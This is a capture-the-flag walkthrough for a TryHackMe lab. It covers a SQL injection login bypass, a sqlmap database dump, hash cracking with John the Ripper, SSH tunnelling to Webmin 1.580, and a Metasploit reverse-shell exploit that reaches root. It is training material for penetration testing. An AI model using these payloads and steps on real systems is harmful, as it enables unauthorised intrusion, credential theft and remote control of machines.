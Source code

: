 # Game Zone Walkthrough
<br/>

## Intro
Welcome into the Game Zone challenge write up, [here](https://tryhackme.com/r/room/gamezone) is the link to the room on TryHackMe.
This time we are gonna see SQL injection and use the famous automated tool *sqlmap* to automate a part of the SQL Injection exploitation.
Later on we will use the Metasploit framework to escalate our privileges and retrieve the final flag.

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Normally, in every challenge we would start with a port scan with a tool like *nmap*, but here since they already tell us that we have to visit the web-app site, we can directly go to it, as we are gonna play only with this.

Let's navigate to the website at `http://MACHINE_IP`, in the landing page we can notice a picture of the Hitman's game refiguring REDACTED_NAME.
In this page we can also see a login form on the left side, since we know that the room is about SQL injection and we do not have any credentials we can inject `' or 1=1; --` in the username part and leave the password field empty.

This will cause it to return true the first part of the check for the username and exclude the password one, since `--` comments out everything that comes after.

Once logged in we land to the REDACTED page, here we have a form to search for game's reviews.
But what is we can manipulate the backend query function and extract other information from the SQL database?

Now we have a couple of options, we can either try to inject different payloads manually or use an automated tool like *sqlmap* which will to the job for us, finally giving us the option to dump databases.

Let's begin by opening Burp Suite, and capturing with Proxy a test search request, so we can than feed it to sqlmap.
Once you have captured the request copy the entire content, create a new file called `request.txt` and paste all inside and save.

### SQLmap
Now we are finally ready to use our tool, from the directory containing the request file run:
```bash
sqlmap -r request.txt  --dmbs=mysql --dbs --dump
```

This tool always take a bit to complete its work, so sit calmly and keep a look at the terminal output once in a while as it might ask you if proceede or not with certain actions.
Most of the times is fine telling him yes (`y`) but depending on the situation, especially if you have some other insight about the system and exploitable entries you want to put `n` on some of them to speed things up.

After a while we get:
```
Table: users
[1 entry]
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| REDACTED_HASH                                                                    | agent47  |
+----------------------------------------------------------------------------------+----------+
```

We can also see another table called REDACTED:
```
Table: REDACTED
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

```

Now we can answer all the task 3 questions and move forward.

<br/>

### Hash Cracking
Since we found a password's hash we can try to crack it using a tool like *JohnTheRipper*, let's save the hash into a file called `hash.txt`
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha256
```
--> REDACTED

Now we are told to use the username and password found in the database dump to connect via ssh and find the user flag.
We can connect using:
```bash
ssh agent47@MACHINE_IP
```
Provide the password when prompted.

Once connected we can run `ls` and notice a file called `user.txt`, view its content:
```bash
cat user.txt
```


<br/>

### Reverse SSH Tunnels
At this point, in task 5 we are introduced to the concept of **reverse SSH tunneling**, which in this case is simply used to bypass a block imposed to an host, in this scenario our machine is blocked from reaching a service.
Thanks to this strategy we can open a port and forward the traffic from our machine to the SSH connected station which will finally reach the wanted service and allows us to bypass the initial block/filter.

To achieve it, from your machine, run:
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```

In a real scenario, we would enumerated the machine and network, in fact running a simple command like:
```bash
ss -tulpn
```

would have showed us that the localhost is listening on port 10000, this will arise interest for further investigations.

After running the port forwarding command we can now navigate in our browser to `http://localhost:10000` and login with agent47 credentials.
Here we can see that we are in ==webmin== version: ==1.580== config panel.

<br/>

### Privilege Escalation
In the last task we see this message left for us: "*Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine."*
Looks like we will have to find an exploit for the specific version of the CMS that will grant us access to the machine.

Let's load Metasploit and search for the exploit:
```bash
msfconsole
```
```bash
search webmin 1.580
```

Here we can see 2 options, we chose the first one as it allows command execution:
```bash
use 0
```

Now check which parameters we have to set running `options`:
```bash
set USERNAME agent47
```
```bash
set PASSWORD REDACTED
```

Remove SSL:
```
set SSL false
```

We want to set a payload to give us a reverse shell:
```bash
set payload cmd/unix/reverse
```

You will also need to set the target and the local one (your OpenVPN):
```bash
set RHOSTS 127.0.0.1
```
```bash
set LHOST IP
```

Finally run it:
```
run
```

In a couple of seconds you should have a session established, run `whoami` to confirm you are root and finally get the flag:
```
cat /root/root.txt
```

<br/>

Congratulations you have successfully exploited the game website and practiced with the Metasploit framework to get a reverse shell on the system.

Catch you in the next CTF 😃 
